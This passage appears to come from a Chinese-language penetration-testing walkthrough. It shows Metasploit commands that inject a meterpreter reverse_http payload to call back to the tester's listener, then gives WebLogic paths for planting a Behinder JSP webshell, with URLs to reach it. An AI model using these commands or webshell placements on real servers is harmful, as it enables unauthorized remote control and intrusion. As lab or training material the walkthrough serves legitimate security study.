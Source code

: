 ```
background
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set DisablePayloadHandler true
set lhost 192.168.111.129
set lport 9999
set session 1
run
```

开始用的2020的kali，是msf5，有一点问题的，话，后面我换了一台msf6的机子，所以ip变了

![image-20220909114020734](images/15.png)

上线成功

## 上传冰蝎马上线CS

冰蝎马主要是一个路径写入的问题

https://www.cnblogs.com/sstfy/p/10350915.htm

weblogic上传木马路径选择：[weblogic上传路径](https://www.shuzhiduo.com/A/gVdnpR2QJW/)

方法1：把shell写到控制台images目录中:

```
\Oracle\Middleware\wlserver_10.3\server\lib\consoleapp\webapp\framework\skins\wlsconsole\images\shell.jsp              //目录上传木马

访问 http://*.*.*.*:7001/console/framework/skins/wlsconsole/images/shell.jsp
```

方法2：写到uddiexplorer目录中

```
\Oracle\Middleware\user_projects\domains\base_domain\servers\AdminServer\tmp\_WL_internal\uddiexplorer\随机字符\war\shell.jsp   //目录写入木马，

访问 http://*.*.*.*:7001/uddiexplorer/shell.jsp
```
